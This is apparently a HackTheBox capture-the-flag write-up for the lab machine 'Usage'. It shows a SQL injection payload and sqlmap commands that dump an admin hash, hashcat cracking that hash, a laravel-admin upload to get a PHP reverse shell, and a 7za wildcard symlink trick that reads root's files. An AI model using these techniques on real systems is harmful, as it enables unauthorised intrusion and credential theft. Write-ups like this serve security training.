Hello!, and welcome to my HackTheBox Write-Ups!

# Usage
---

.png)

# Description
```text
Usage is an easy Linux machine that features a blog site vulnerable to SQL injection, which allows the administrator&amp;amp;#039;s hashed password to be dumped and cracked. This leads to access to the admin panel, where an outdated `Laravel` module is abused to upload a PHP web shell and obtain remote code execution. On the machine, plaintext credentials stored in a file allow SSH access as another user, who can run a custom binary as `root`. The tool makes an insecure call to `7zip`, which is leveraged to read the `root` user&amp;amp;#039;s private SSH key and fully compromise the system. 
```


# Recon
## Initial port scanning

```bash
$ sudo nmap -sCV -oA nmap/initial_scan 10.10.11.18
[sudo] password for beast: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 06:48 EDT
Nmap scan report for 10.10.11.18
Host is up (0.32s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.11 seconds
```

It can be seen that port 22 (SSH), 80 (http) are open. `nmap` found a hostname also - `usage.htb`. Accessing the port `80` after adding hostname to `/etc/hosts`.


After registering a user, we can login.


Upon exploring there is a session token of `laravel` . So the back-end using laravel php.
On the homepage there is a admin section which redirect us to `admin.usage.htb`.



On testing the `forget-password` page with `'` as input we get 500 server error.



There might be a `SQL-Injection` in the form. Upon further testing we get a successful injection with the payload `' or 1=1 -- -`



Automating the information dump using `SQL-Injection`.



```bash
$ sqlmap -r forget.req --risk=3 --level=5 --batch --dbs
...
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog
```

```bash
$ sqlmap -r forget.req --risk=3 --level=5 --batch -D usage_blog --tables --threads=10
...
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+

```

```bash
$ sqlmap -r forget.req --risk=3 --level=5 --batch -D usage_blog -T admin_users -C name,password --dump --threads=10
...
Database: usage_blog
Table: admin_users
[1 entry]
+---------------+--------------------------------------------------------------+
| name          | password                                                     |
+---------------+--------------------------------------------------------------+
| Administrator | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 |
+---------------+--------------------------------------------------------------+
```

Now we can try to crack the password for the admin user

```bash
$ hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt
...
$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2:whatever1
```

#### creds - `admin / whatever1`
With this credential we can login to `http://admin.usage.htb`


On the dashboard section it can be seen that `laravel-admin 1.8.18` is installed.
If we search for `laravel-admin 1.8.18`, we land in a post by `synk`.


We can go through the POC mentioned.


We will use the php reverse shell by `pentestmonkey` - [Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)



Exploring all the files we can find a password in clear text
```bash
$ ls -a
.
..
.bash_history
.bashrc
.cache
.config
.local
.monit.id
.monit.pid
.monit.state
.monitrc
.mysql_history
.profile
.ssh
user.txt
$ 
$ cat .monitrc
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
```

There is another user `xander` in `/home`. We can try these credentials for `xander` (SSH)
#### credential - `xander / 3nc0d3d_pa$$w0rd`



## Privesc to `root` user

```bash
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management

xander@usage:~$ file /usr/bin/usage_management
/usr/bin/usage_management: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fdb8c912d98c85eb5970211443440a15d910ce7f, for GNU/Linux 3.2.0, not stripped
```

Testing the `usage_management` application
```bash
xander@usage:~$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7763 64-Core Processor                 (A00F11),ASM,AES-NI)

Open archive: /var/backups/project.zip
--       
Path = /var/backups/project.zip
Type = zip
Physical Size = 54830790

Scanning the drive:
2984 folders, 17949 files, 113879672 bytes (109 MiB)             

Updating archive: /var/backups/project.zip

Items to compress: 20933

                                                                               
Files read from disk: 17949
Archive size: 54830783 bytes (53 MiB)
Everything is Ok
```

using `strings` to get any useful contents from the application
```bash
xander@usage:~$ strings /usr/bin/usage_management
/lib64/ld-linux-x86-64.so.2
chdir
__cxa_finalize
__libc_start_main
puts
system
__isoc99_scanf
perror
printf
libc.so.6
GLIBC_2.7
GLIBC_2.2.5
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u+UH
/var/www/html
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
Error changing working directory to /var/www/html
/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql
Password has been reset.
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3):
```

We can see that option 1 from the tool uses files under `/var/www/html` and creates backups under `/var/backups/` with the command `/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *`.

We can notice the `*` used in the above command. We can find a way to exploit of using `*` with `7za`.


Using the mentioned technique.
```bash
xander@usage:/var/www/html$ touch @root; ln -fs /root/root.txt root
```



And we got the `root flag`.

### Think Out Of The Box!!